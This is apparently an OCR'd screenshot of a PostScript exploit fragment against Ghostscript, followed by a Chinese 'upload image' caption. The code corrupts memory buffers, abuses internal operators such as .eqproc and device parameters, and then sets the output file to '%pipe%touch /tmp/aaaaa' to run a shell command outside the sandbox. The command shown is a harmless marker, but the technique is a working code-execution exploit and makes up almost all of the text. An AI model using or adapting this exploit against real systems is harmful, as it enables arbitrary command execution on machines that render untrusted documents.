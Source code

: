 ```c
            buffersearchvars 2 1 put
            buffersearchvars 3 buffers buffersearchvars 1 get get put
            buffersearchvars 4 buffersizes buffersearchvars 1 get get 16 sub put
        } if
        buffersearchvars 1 buffersearchvars 1 get 1 add put
    } repeat

    buffersearchvars 2 get 1 ge {
        exit
    } if
    %(.) print
} loop

.eqproc
.eqproc
.eqproc
sdevice 0
currentdevice
buffersearchvars 3 get buffersearchvars 4 get 16#7e put
buffersearchvars 3 get buffersearchvars 4 get 1 add 16#12 put
buffersearchvars 3 get buffersearchvars 4 get 5 add 16#ff put
put


buffersearchvars 0 get array aload

sdevice 0 get
16#3e8 0 put

sdevice 0 get
16#3b0 0 put

sdevice 0 get
16#3f0 0 put


currentdevice null false mark /OutputFile (%pipe%touch /tmp/aaaaa)
.putdeviceparams
1 true .outputpage
.rsdparams
%{ } loop
0 0 .quit
%asdf
```

上传图片

![](imgs/2.png)
